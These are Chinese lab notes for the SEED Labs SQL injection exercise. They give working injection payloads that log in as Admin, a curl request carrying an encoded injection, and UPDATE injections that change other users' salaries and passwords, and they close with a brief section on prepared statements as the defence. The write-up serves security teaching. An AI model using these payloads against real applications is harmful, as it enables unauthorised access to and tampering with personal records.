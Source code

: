 # SQL Injection Attack Lab

## Pre-Experiment

这一期的主题是 SQL 注入攻击. 

[地址](https://seedsecuritylabs.org/Labs_16.04/Web/Web_SQL_Injection/)

[实验指导](https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf)

[参考资料](https://blog.csdn.net/qq_37672864/article/details/89331585)


- SQL 基础

虚拟机中 `/var/www/SQLInjection/` 给出了一个 web 项目, 本地浏览器访问 `http://www.SEEDLabSQLInjection.com`. 

同样虚拟机已经配装了 MySQL, 指令 `mysql -u root -pseedubuntu` 可访问, 于此实验相关的数据库为 User, 库中包含表 credential. 

``` SQL
use Users;
show tables;
select * from credential;
```

## T2 SQL Injection Attack on SELECT Statement

在登录页 (对应 `/var/www/SQLInjection/unsafe home.php`) 插入 SQL 片段来完成任务. 下面是 `unsafe home.php` 中相关的代码片段. 

``` php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

### T2.1 SQL Injection Attack from webpage

我们需要在登录页面的输入框中插入 SQL, 以 Admin 的身份登录. 

经过测试, 这段 SQL 是没问题的. 
``` sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name = 'Admin' and Password = (select Password from credential where name='Admin');
```

如果一切顺利, 3 行 `Password=` 后面的内容就是答案, 但是传入的密码会通过 SHA1 加密, 利用密码的位置插入 SQL 片段不太合适. 所以在用户名位置插入下面的 SQL 片段

``` sql
Admin' and Password = (select Password from credential where name='Admin') #
```
::: tip
最后的 `#` 会注释掉多余的 SQL. 
:::

### T2.2 SQL Injection Attack from command line
这个本质和 2.1 一样, 但是它要求仿造请求完成插入, 这里使用系统携带的 curl 工具. 
``` bash
curl 'www.SeedLabSQLInjection.com//unsafe_home.php?username=Admin%27%20and%20Password%20%3D%20%28select%20Password%20from%20credential%20where%20name%3D%27Admin%27%29%20%23&Password=111'
```
在请求中出现的特殊字符需要转成 ASCII 的 16 进制编码, 另外 `www.SeedLabSQLInjection.com` 后面的 `/` 貌似需要转义. 

### T2.3 Append a new SQL statement

这里要求在 2.1 和 2.2 的基础上尝试一次注入两句 SQL, 
``` sql {2}
Admin' and Password = (select Password from credential where name='Admin'); 
insert into credential(name) values('test') #
```
这里第二句是一句插入, 添加一个名为 test 的用户. 

这个实验没有成功. 

## T3 SQL Injection Attack on UPDATE Statement

有 T2 的基础之后, T3 要简单的多, 主要是体验一下对数据库的修改, 相对读取数
据, 这种 SQL 注入危害更大.

任务要求在用户的 Edit Profile 页面注入 SQL, `/var/www/SQLInjection/unsafe edit backend.php` 中对应的代码片段. 
``` php
$hashed_pwd = sha1($input_pwd); 
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email', address='$input_address', Password='$hashed_pwd', PhoneNumber='$input_phonenumber' WHERE ID=$id;";
$conn->query($sql);
```

### T3.1 Modify your own salary

修改自己的薪水, 在 phone number 输入框中输入, 

``` php
', Salary='50000
```
不过这里要假装知道薪水对应的字段是 Salary. 

### T3.2 Modify other people’ salary
修改自己老板 Boby 的薪水, 在 phone number 中添加,
``` sql
', Salary='1000' where Name='Boby' #
```

### T3.3 Modify other people’ password
修改老板 Boby 的密码, 进一步打击报复, 在 address 中添加
``` sql
', Password='7c4a8d09ca3762af61e59520943dc26494f8941b', PhoneNumber = '' where Name='Boby' #
```
::: tip
正如之前提到, 这里的密码要预先经过 SHA1 加密, 明文为 123456. 
:::

## 如何应对 SQL 注入

### SQL Server 做了什么
对于 SQL Server, 一条 SQL 语句会被拆解为 SQL 部分与数据部分, 直到最后要写入数据库, SQL 语句都是用 placeholder 来占用数据所在的位置. 按顺序完成: 
1. 对 SQL 语句进行语义检查
1. 将 SQL 语句中的关键字 (SELECT 等) 转成机器可执行的代码
1. 优化, 选择最优操作
1. 将最优的方法写入缓冲区内
1. 将数据与编译完成的 SQL 绑定
1. 写入

### 分离 SQL 部分与数据部分

利用 Prepared SQL Statement 来提前做好数据的占位, 也就是在一开始将 SQL 部分和数据部分分离, 防止数据部分危险的内容与 SQL 部分结合, 篡改本意. 





